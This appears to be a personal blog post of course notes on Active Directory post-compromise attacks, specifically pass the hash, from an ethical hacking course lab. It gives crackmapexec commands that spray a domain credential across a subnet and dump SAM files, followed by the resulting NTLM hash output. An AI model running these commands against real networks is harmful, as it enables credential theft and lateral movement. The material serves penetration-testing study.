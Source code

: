 ```yaml
---
layout: post
title:  "TCM_security_EthicalHacking Part 15_4"
author: haran
categories: [TCM , Cyber Security]
image: post_img/2021/01/01_1/tcm.png
beforetoc: "Attacking Active Directory Post Compromise Attack"
toc: true
---
```


Attacking Active Directory Post Compromise Attack

## Attacking Active Directory Post Compromoise Attacks

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/1.jpg)

## Pass the hash attack

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/2.jpg)


![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/3.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/4.jpg)

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/5.jpg)

```ps
crackmapexec smb 192.168.163.0/24 -u dhoni  -d MARVEL.local  -p 1234@Valimai
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/6.jpg)

- dumping the sam file

```ps
crackmapexec smb   192.168.163.0/24 -u dhoni  -d MARVEL.local  -p 1234@Valimai --sam
```

![dockerengine]({{ site.baseurl }}/post_img/2021/01/01_15_4/7.jpg)

```ps
SMB         192.168.163.131 445    AHL-PC           Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.163.131 445    AHL-PC           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.163.128 445    DHONI-PC         Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.163.128 445    DHONI-PC         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.163.131 445    AHL-PC           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.163.128 445    DHONI-PC         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.163.131 445    AHL-PC           WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:dfa0166b9627286ff32395e0a7c7c611:::
SMB         192.168.163.128 445    DHONI-PC         WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:dfa0166b9627286ff32395e0a7c7c611:::
SMB         192.168.163.131 445    AHL-PC           ahl:1002:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
SMB         192.168.163.131 445    AHL-PC           [+] Added 5 SAM hashes to the database
SMB         192.168.163.128 445    DHONI-PC         ahl:1002:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
```
